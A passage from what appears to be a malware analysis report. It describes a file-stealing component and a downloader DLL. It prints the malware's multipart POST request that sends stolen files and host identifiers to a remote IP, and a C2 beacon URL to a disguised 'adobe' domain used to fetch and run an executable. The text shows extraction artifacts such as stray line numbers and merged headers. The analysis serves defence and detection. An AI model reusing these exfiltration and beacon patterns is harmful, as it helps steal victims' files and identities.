...File data...

------qwerty--




1234567891011121314151617181920212223242526272829303132333435363738

POST /post.php HTTP/1.1Content-Type: multipart/form-data; boundary=----qwertyHost: 195.62.52.93Content-Length: ...Cache-Control: no-cache ------qwertyContent-Disposition: form-data; name="filename" \\<filename>------qwertyContent-Disposition: form-data; name="filedate" <month>/<day>/<year> <hour>:<seconds>------qwertyContent-Disposition: form-data; name="compname" <ComputerName>||<Username>||<UserHWGUID>||<C_VolumeSerialNumber>------qwertyContent-Disposition: form-data; name="serial" <SerialNumberOfDriveToStealFrom>------qwertyContent-Disposition: form-data; name="w" "?"------qwertyContent-Disposition: form-data; name="filesize" <FileSize>------qwertyContent-Disposition: form-data; name="file"; filename="<AbsoluteFilePathInTemporaryLocation>"Content-Type: application/octet-streamContent-Transfer-Encoding: binary ...File data... ------qwerty--





The malware also creates a SQLite database named "asha.dat" in the local users temp folder. Therein, it keeps track of files which were stolen by calculating the MD5 hash of the filename followed by the file length. Therefore, it creates a Unicode string of the original file path from the drive and concatenates the file size in bytes to it. Finally, it uses the API functions MD5Init(), MD5Update() and MD5Final() to calculate the hash and store it in the database.

Figure 7 Structure of the database created by the malware
It should be noted, that only hashes of files are added to the database that don't have the following extensions:

DLL
BIN
CAB
EXE
ISO

Downloader: MSO1567.dls / LocalSMS.dll
This file is essentially a simple downloader which contacts the C2 server to send some user data and get an executable as response which will be executed. The DLL is written in C++ and contains all of the functionality is in an export function named "EntryPoint". The file was compiled without any compiler or linker optimizations, thus the big file size and the remaining PDB path string.
At first, the malware retrieves the temp path of the local user ("C:\Users\<Username>\AppData\Local\Temp\"), the computer name (e.g. "WIN-MLABCSUOVJB"), the hardware profile GUID (e.g. "{826ee360-7139-11de-8d20-808e6f6e6263}") and the volume serial number of C:\ drive (e.g. "1956047236"). Next, it takes the following hardcoded string:
http://adobe.update-service[.]net/index.php?comp=
To create a URL string with the victims information for contacting the C2 server:

http://adobe.update-service[.]net/index.php?comp=WIN-MLABCSUOVJB&id=WIN-MLABCSUOVJB_{826ee360-7139-11de-8d20-808e6f6e6263}1956047236

To create the filename where the downloaded file will be saved, the malware tries to build a random string of 10 characters. However, due to an implementation error the string always ends up being the same, namely "frAQBc8Wsa". This string gets concatenated with the retrieved local users temp path to the following file path:
